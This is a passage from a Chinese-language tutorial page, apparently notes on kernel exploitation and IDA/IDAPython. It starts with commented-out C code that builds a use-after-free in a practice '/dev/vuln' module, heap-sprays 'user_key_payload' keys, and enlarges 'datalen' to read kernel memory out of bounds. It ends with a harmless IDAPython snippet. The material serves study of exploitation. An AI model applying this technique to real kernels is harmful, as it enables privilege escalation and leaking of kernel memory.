 ```c

    //assert((kbuf2 = recv_msg_nocopy(qid, 0x1000)) != NULL);
    //assert(((long long)kbuf1 + 0x100) == ((long long*)kbuf2)[0x13]);





    ///* 尝试利用struct user_key_payload结构体
    // * 进行数据读取或写入
    // */
    //Data data;
    //char *kbuf1, *kbuf2;
    //int size = 0x70;
    //key_serial_t key;

    //assert((gfd1 = open("/dev/vuln", O_RDWR)) >= 0);

    //// 内核态申请0x80大小的内存
    //data.val = size;
    //assert(ioctl(gfd1, VULN_ALLOC, &data) == 0)
    //kbuf1 = (char *)data.addr;

    //// 制造UAF
    //assert(ioctl(gfd1, VULN_FREE, &data) == 0)

    //// 开始heap spray
    //key = spray_addkey("hhaawwkk1", size);

    //// 利用UAF修改struct user_key_payload的datalen字段
    //data.addr = (long long*)(kbuf1 + offsetof(struct user_key_payload, datalen));
    //data.val = 0x1000;
    //assert(ioctl(gfd1, VULN_WRITE, &data) == 0);

    //kbuf2 = spray_readkey(key, 0x1000);
    //assert(((long long)kbuf1 + 0x100) == ((long long*)kbuf2)[0x15]);
    return 0;
}
```

## 调试环境

  为了方便，根据上面的介绍，准备好了[调试环境](kernel.tar.gz)。

# IDA

  IDA是世界上顶级的交互式反汇编工具，往往使用**IDA**静态分析程序，从而理清程序中的代码组织结构，并统计相关资源信息

## IDAPython

  这是IDA的一个插件，允许IDA执行相关的*python*脚本信息。其中，该插件提供了大量的[IDA接口](https://hex-rays.com/products/ida/support/idapython_docs/frames.html)，从而可以方便的获取程序的相关信息，我们将其整理成如下模板
  ```python
import ida_bytes

'''
	获取虚拟地址处的1字节的值
	返回的是整形
'''
val = ida_bytes.get_byte(address)
  ```